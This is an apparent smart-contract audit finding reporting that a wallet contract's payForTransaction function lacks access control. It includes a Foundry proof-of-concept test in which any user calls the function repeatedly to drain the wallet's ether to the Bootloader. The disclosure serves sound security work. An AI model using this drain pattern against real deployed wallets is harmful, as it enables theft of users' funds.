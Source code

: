 

## Summary

`payForTransaction` does not have any access control and, consequently, can be called by anyone any number of times.

## Vulnerability Details

`payForTransaction` is a method intended for paying the `Bootloader` for transactions. As such, it should be called only by the `Bootloader`, but this restriction is not implemented. Consequently, anyone can call this function with arbitrary transactions, as demonstrated by the following test:

```javascript
    function testZkAnyoneCanCallPayForTransaction() public {
        // Arrange
        address anyUser = makeAddr("anyUser");
        address dest = address(usdc);
        uint256 value = 0;
        bytes memory functionData = abi.encodeWithSelector(ERC20Mock.mint.selector, anyUser, AMOUNT);

        Transaction memory transaction =
            _createUnsignedTransaction(mondrianWallet.owner(), 113, dest, value, functionData);

        uint256 initialBalance = address(mondrianWallet).balance;

        // vm.txGasPrice(100); //setting gas price to 100 gwei - this has no effect on the amount paid to the bootloader

        vm.startPrank(anyUser);
        mondrianWallet.payForTransaction(EMPTY_BYTES32, EMPTY_BYTES32, transaction);
        mondrianWallet.payForTransaction(EMPTY_BYTES32, EMPTY_BYTES32, transaction);
        mondrianWallet.payForTransaction(EMPTY_BYTES32, EMPTY_BYTES32, transaction);
        mondrianWallet.payForTransaction(EMPTY_BYTES32, EMPTY_BYTES32, transaction);
        mondrianWallet.payForTransaction(EMPTY_BYTES32, EMPTY_BYTES32, transaction);
        vm.stopPrank();

        uint256 endingBalance = address(mondrianWallet).balance;

        assert(endingBalance < initialBalance);
    }
```

## Impact

A malicious user can keep calling `payForTransaction` until the wallet transfers all of its ether to the `Bootloader`.

## Tools Used

Manual review, Foundry.
